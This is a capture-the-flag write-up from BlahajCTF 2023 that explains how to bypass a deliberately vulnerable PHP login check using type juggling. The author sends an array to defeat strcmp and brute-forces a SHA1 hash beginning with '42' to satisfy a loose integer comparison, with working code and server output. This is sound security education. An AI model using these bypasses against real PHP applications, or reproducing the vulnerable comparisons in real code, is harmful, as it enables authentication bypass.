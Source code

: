 ```yaml
---
title: clowns-as-a-service
date: 2023-12-05
tags:
- web
- type juggling
- php
- author-hartmannsyg
- author-fs
categories: BlahajCTF 2023
---
```


solved by {% person hartmannsyg %}, {% person fs %}

> PHP has some inner clown magic like juggling. Can you juggle your way to get the flag?

We are given some source code:

{% ccb lang:php caption:index.php url:'https://gist.github.com/azazazo/036a6890d65e7d65db97116b69010c46' url_text:'source link' gutter1:1-23 %}
<?php

$secret = 'REDACTED';
$flag = 'blahaj{REDACTED}';

$inputsecret = $_POST['secret'];
$meaningoflife = $_POST['meaningoflife'];

# Check if the secret is correct
if (strcmp($inputsecret, $secret) != 0) {
    echo 'come back with correct secret';
}
else{
    # Check if the meaning of life is correct
    if (hash('sha1',$meaningoflife) != 42) {
        echo 'come back with correct meaning of life';
    }
    else{
        echo 'flag: ' . $flag;
    }
}

?>
{% endccb %}

We have to comparisons to break, the first one is a `strcmp()` between our input secret and the actual secret, and the second one is to bypass the hash function.

## Bypassing the first check

To bypass the first strcmp, we just need to submit an array into `$secret`, and the first check will be bypassed. This is because:
1. if you `strcmp()` an array and a string, it will result in `NULL`
2. `NULL` == 0 is true

So when I submit it, I get:
```html
<br />
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/html/index.php</b> on line <b>10</b><br />
come back with correct meaning of life
```

confirming that we have bypassed the first check.

## Bypassing the second check

From [this pdf](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf) which is the first result I got when I googled "php type juggling", in Bug #2 (Page 18-22), if a hash is compared to an integer, then as long as we have the integer followed by a non-numeric character in the hash, it will pass through.

{% ccb
html:true %}
<span class="string">"<span class="number">7</span>a5c2...72c933"</span> == int(<span class="number">7</span>)
<span class="string">"<span class="number">42</span>f66...8229bb"</span> == int(<span class="number">42</span>)
<span class="string">"<span class="number">092</span>d1...c410a9"</span> == int(<span class="number">92</span>)
{% endccb %}

I.e., we need to find a sha1 hash that starts with 42, and whose third digit is not a digit (i.e. can only be a, b, c, d, e, f). We can make a python script that generates various hashes like that:

{% ccb caption:hash.py gutter1:1-13 lang:py %}
import hashlib

chars = '0123456789abcdefghijklmnopqrstuvwxyz'
chars = [bytes(c, 'utf-8') for c in chars ]
for i in chars:
    for j in chars:
        for k in chars:
            for l in chars:
                for m in chars:
                    hash = hashlib.sha1(i+j+k+l+m).hexdigest()
                    if hash[:2].isnumeric() and int(hash[:2]) == 42 and not hash[2].isnumeric():
                        print(i+j+k+l+m)
                        print(hash)
{% endccb %}

As it turns out this generates *a lot* of "valid" hashes so I took one (`0sob7` gives `42a5b...1aa52a`), and submitted it as the `meaningoflife`.

I received:
```html
<br />
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/html/index.php</b> on line <b>10</b><br />
flag: blahaj{php_is_the_biggest_clown_of_all_the_clowns}
```